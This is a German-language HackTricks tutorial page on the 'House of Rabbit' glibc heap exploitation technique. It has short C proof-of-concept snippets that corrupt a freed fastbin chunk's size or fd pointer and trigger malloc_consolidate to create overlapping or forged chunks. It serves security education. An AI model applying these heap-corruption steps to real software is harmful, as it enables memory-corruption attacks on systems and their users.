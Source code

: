 # House of Rabbit

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

### Anforderungen

1. **Fähigkeit, den fast bin fd-Zeiger oder die Größe zu ändern**: Das bedeutet, dass Sie den Vorwärtszeiger eines Chunks im Fastbin oder dessen Größe ändern können.
2. **Fähigkeit, `malloc_consolidate` auszulösen**: Dies kann erreicht werden, indem entweder ein großer Chunk zugewiesen oder der obere Chunk zusammengeführt wird, was den Heap zwingt, Chunks zu konsolidieren.

### Ziele

1. **Überlappende Chunks erstellen**: Um einen Chunk mit einem anderen zu überlappen, was weitere Heap-Manipulationen ermöglicht.
2. **Falsche Chunks fälschen**: Um den Allokator zu täuschen, damit er einen falschen Chunk während der Heap-Operationen als legitimen Chunk behandelt.

## Schritte des Angriffs

### POC 1: Ändern Sie die Größe eines Fast-Bin-Chunks

**Ziel**: Erstellen Sie einen überlappenden Chunk, indem Sie die Größe eines Fastbin-Chunks manipulieren.

* **Schritt 1: Chunks zuweisen**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
Wir allozieren zwei Chunks von jeweils 0x40 Bytes. Diese Chunks werden nach dem Freigeben in die Fast-Bin-Liste eingefügt.

* **Schritt 2: Chunks freigeben**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
Wir geben beide Chunks frei und fügen sie der Fastbin-Liste hinzu.

* **Schritt 3: Chunk-Größe ändern**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
Wir ändern die Größenmetadaten von `chunk1` auf 0xa1. Dies ist ein entscheidender Schritt, um den Allokator während der Konsolidierung zu täuschen.

* **Schritt 4: Trigger `malloc_consolidate`**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
Allocieren eines großen Blocks löst die Funktion `malloc_consolidate` aus, die kleine Blöcke im schnellen Bin zusammenführt. Die manipulierte Größe von `chunk1` führt dazu, dass es sich mit `chunk2` überschneidet.

Nach der Konsolidierung überschneidet sich `chunk1` mit `chunk2`, was weitere Ausnutzung ermöglicht.

### POC 2: Ändern des `fd` Zeigers

**Ziel**: Erstellen eines gefälschten Blocks durch Manipulation des schnellen Bin `fd` Zeigers.

* **Schritt 1: Blöcke allokieren**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**Erklärung**: Wir allokieren zwei Chunks, einen kleineren und einen größeren, um den Heap für den gefälschten Chunk einzurichten.

* **Schritt 2: Erstelle gefälschten Chunk**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
Wir schreiben gefälschte Chunk-Metadaten in `chunk2`, um kleinere Chunks zu simulieren.

* **Schritt 3: Freigeben von `chunk1`**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**Erklärung**: Wir geben `chunk1` frei und fügen es der Fastbin-Liste hinzu.

* **Schritt 4: Ändere `fd` von `chunk1`**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**Erklärung**: Wir ändern den Vorwärtszeiger (`fd`) von `chunk1`, um auf unseren gefälschten Chunk innerhalb von `chunk2` zu zeigen.

* **Schritt 5: `malloc_consolidate` auslösen**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
Die Zuweisung eines großen Blocks löst erneut `malloc_consolidate` aus, das den gefälschten Block verarbeitet.

Der gefälschte Block wird Teil der Fastbin-Liste, wodurch er zu einem legitimen Block für weitere Ausnutzung wird.

### Zusammenfassung

Die **House of Rabbit**-Technik beinhaltet entweder die Änderung der Größe eines Fastbin-Blocks, um überlappende Blöcke zu erstellen, oder die Manipulation des `fd`-Zeigers, um gefälschte Blöcke zu erstellen. Dies ermöglicht Angreifern, legitime Blöcke im Heap zu fälschen, was verschiedene Formen der Ausnutzung ermöglicht. Das Verständnis und die Übung dieser Schritte werden Ihre Fähigkeiten zur Heap-Ausnutzung verbessern.

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
